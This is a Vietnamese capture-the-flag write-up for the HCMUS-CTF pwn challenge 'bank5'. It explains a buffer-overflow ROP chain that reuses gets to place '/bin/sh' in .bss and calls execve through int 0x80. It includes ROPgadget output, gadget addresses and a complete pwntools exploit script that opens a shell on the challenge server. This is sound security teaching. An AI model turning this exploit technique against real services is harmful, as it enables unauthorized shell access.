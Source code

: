 ## ⚡ [bank5](https://ctf.hcmus.edu.vn/challenges#bank5-13)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/168-pts-brightgreen.svg)](https://img.shields.io/badge/168-pts-brightgreen.svg)

Tác giả: `xikhud`

Tags: `pwn` `bof` `rop` `ret2syscall`

### Summary

Chạy thử chương trình thì thấy nó giống challange `bank1` trước đó, lần này thì ta có thêm file binary.

Không có shellcode, không có `/bin/sh`, không có `/bin/cat`. Vậy ta phải dùng ROP để gọi syscall `execve`.

Xem cách dùng ROP tại [bank4](../../bank4/README.md).

### Exploit

**Phần 1**: Đọc chuỗi `/bin/sh` vào bộ nhớ `bss` thông qua việc tận dụng lại hàm `gets`.

```bash 
$ objdump -t bank5 | grep gets
00000000 l    df *ABS*  00000000 getsysstats.o
08050140  w    F .text  0000018c gets
```

Lấy địa chỉ vùng nhớ `bss`.

```bash 
$ objdump -t bank5 | grep [.]bss
080da320 l    d  .bss   00000000 .bss
```

ROPgadget clear argument của hàm `gets` vừa gọi:

```bash
$ ROPgadget --binary bank5 --only 'pop|ret' | grep 'eax'
...
0x0809d514 : pop eax ; ret # useful
...
```

Payload phần 1:

`payload = A*offset + gets_addr + eax_ret + bss_addr`

**Phần 2**: Gọi syscall `execve("/bin/sh", NULL, NULL)`

Request syscall:

```bash
$ ROPgadget --binary bank5 --only 'pop|ret' | grep 'eax'
...
0x0809d514 : pop eax ; ret # useful
...
```

`payload += eax_ret + 0xb # call syscall number 0xb`

Control 3 tham số sau của syscall execve bằng cách đẩy chúng vào thanh ghi `ebx, ecx, edx`:

```bash 
$ ROPgadget --binary bank5 --only 'pop|ret' | grep 'ebx' | grep 'edx' | grep 'ecx'
0x0806dfd1 : pop edx ; pop ecx ; pop ebx ; ret
```

`payload += edx_ecx_ebx_ret + 0 + 0 + bss_addr`

Trigger syscall bằng cách thực thi `int 0x80`:

```bash
$ ROPgadget --binary bank5 --only 'int'
Gadgets information
============================================================
0x08049553 : int 0x80

Unique gadgets found: 1
```

`payload += int_0x80`

Đến đây ta chỉ cần gửi thêm `shell` nữa là có thể lấy được shell.

`payload += "/bin/sh\x00"`
  
### Code

```python
#!/usr/bin/env python3

from pwn import *
from platform import architecture

path = './bank5'
elf = ELF(path, checksec=False)

def conn():
    if args.LOCAL:
        return process(path)
    else:
        return remote("61.28.237.24", 30206)
        
offset = 80         
context.arch = 'i386' if ('32bit' in architecture(path.split(' ')[0])) else 'amd64'

int_80 = 0x08049553
bss_addr = elf.bss()

print(hex(bss_addr))

edx_ecx_ebx_ret = 0x0806dfd1
eax_ret = 0x0809d514
gets_addr = 0x08050140

def main():    
    sh = conn();

    payload = b'A'*offset + p32(gets_addr) + p32(eax_ret) + p32(bss_addr) # sections 1: read /bin/sh to bss section
    payload += p32(eax_ret) + p32(0xb) # call syscall
    
    payload += p32(edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(bss_addr) + p32(int_80)

    sh.sendlineafter('[+] Please enter your name: ', payload)
    
    sh.send(b'/bin/sh\x00') # send shell
    
    sh.sendline(b'cat flag.txt;echo;exit') # get flag
    
    sh.interactive()

if __name__ == "__main__":
    main()

```

📫 Flag: **`HCMUS-CTF{rop_and_shellcode}`**

Reference:

- [CTF-Wiki](https://ctf-wiki.org/pwn/linux/stackoverflow/basic-rop/#ret2syscall)

- [hipwn](https://ctftime.org/writeup/26223)

---
*[Back to table of contents](../README.md)*
